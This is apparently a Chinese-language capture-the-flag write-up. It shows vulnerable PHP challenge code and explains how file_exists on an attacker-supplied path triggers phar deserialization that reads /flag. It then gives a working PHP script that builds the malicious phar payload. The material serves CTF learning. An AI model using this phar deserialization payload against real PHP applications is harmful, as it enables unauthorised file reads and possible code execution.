 ```php

    private function move(){
        move_uploaded_file($_FILES["file"]["tmp_name"], "upload/".$this->filename);
        return "Upload succsess!";
    }

    public function __wakeup(){
        echo file_get_contents($this->filename);
    }
}


class check_img{
    public $img_name;
    public function __construct(){
        $this->img_name = $_GET['img_name'];
    }

    public function img_check(){
        if(file_exists($this->img_name)){
            return "Image exsists";
        }else{
            return "Image not exsists";
        }
    }
}
```

一眼 phar 反序列化

利用点在 upload 类的 `__wakeup` 方法里, 估计是用 file_get_contents 读取 flag

index.php 中的 `$down->img_check()` 调用了 `file_exists`, 可以直接进行 phar 反序列化

payload 也很容易构造

```php
<?php

class upload{
    public $filename = '/flag';
}

$a = new upload();

$phar =new Phar("phar.phar"); 
$phar->startBuffering();
$phar->setStub("<?php XXX __HALT_COMPILER(); ?>");
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```
